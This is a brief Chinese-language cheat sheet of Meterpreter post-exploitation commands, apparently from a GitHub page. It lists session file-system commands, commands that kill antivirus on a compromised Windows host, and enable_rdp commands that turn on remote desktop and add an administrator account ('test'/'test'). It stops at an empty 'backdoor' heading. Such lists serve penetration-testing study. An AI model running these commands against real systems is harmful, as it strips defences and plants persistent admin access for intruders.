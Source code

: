 


## 代码整理

### 操作文件系统

```
1.文件的基本操作
ls：列出当前路径下的所有文件和文件夹。

pwd 或 getwd：查看当前路径。

search：搜索文件，使用search -h查看帮助。

cat：查看文件内容，比如cat test.txt。

edit：编辑或者创建文件。和Linux系统的vm命令类似，同样适用于目标系统是windows的情况。

rm：删除文件。

cd：切换路径。

mkdir：创建文件夹。

rmdir：删除文件夹。

getlwd 或 lpwd：查看自己系统的当前路径。

lcd：切换自己当前系统的目录。

lls：显示自己当前系统的所有文件和文件夹。
```

### 系统其它操作

```
1.关闭防病毒软件
run killav

run post/windows/manage/killav

```
### 操作远程桌面

```
run post/windows/manage/enable_rdp      \\开启远程桌面

run post/windows/manage/enable_rdp username=test password=test       \\添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

## 后门
